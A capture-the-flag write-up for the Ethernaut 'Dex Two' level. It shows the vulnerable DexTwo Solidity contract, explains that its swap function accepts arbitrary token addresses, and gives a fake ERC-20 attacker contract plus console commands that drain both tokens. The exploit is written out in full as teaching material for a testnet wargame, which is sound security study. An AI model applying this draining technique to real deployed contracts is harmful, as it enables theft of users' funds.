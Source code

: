 # 23. Dex Two

This level will ask you to break DexTwo, a subtlely modified Dex contract from the previous level, in a different way.

You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.

You will still start with 10 tokens of token1 and 10 of token2. The DEX contract still starts with 100 of each token.

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract DexTwo  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_amount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_amount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(spender, amount);
    SwappableTokenTwo(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

## Vulnerability

That one is pretty obvious, the swap function allows any contract to be passed as `from` or `to` parameters. In order to drain the funds from both token1 and token2 we just need to build a simple fake ERC-20 contract that will allow us to withdraw all the funds from the DEX.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {

    address targetContract;

    constructor(address _targetContract) {
        targetContract = _targetContract;
    }

    // Fake approve
    function approve(address, uint256 amount) public returns (bool) {
        return true;
    }

    // Fake balanceOf : works as long as you don't try to swap more than 1 unit.
    // Ensures that ((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)))
    // always equal to IERC20(to).balanceOf(address(this)) as long as it is called with amount equal to 1
    // ((1 * IERC20(to).balanceOf(address(this))) / 1 = IERC20(to).balanceOf(address(this)))
    function balanceOf(address account) public returns (uint256) {
        return 1;
    }

    // Fake transferFrom
    function transferFrom(address spender, address receiver, uint256 amount) public returns (bool) {
        return true;
    }
}
```

Just deploy this contract to rinkeby, and use the following commands in the console :

```js
// Ensure that we don't have any approval issues
// on both token1 or token2
await contract.approve(contract.address, 1000);
```

```js
const attackerContractAddress="THE-ADDRESS-OF-THE-ATTACKER-CONTRACT";
```

Now drain the DEX from all of its token1:

```js
// Leave the amount to 1, the attacker contract assumes that this value is set to 1
await contract.swap(attackerContractAddress, token1, 1);
```

And take all of token2 too:

```js
// Leave the amount to 1, the attacker contract assumes that this value is set to 1
await contract.swap(attackerContractAddress, token2, 1);
```

You can now submit the challenge and move to the next one !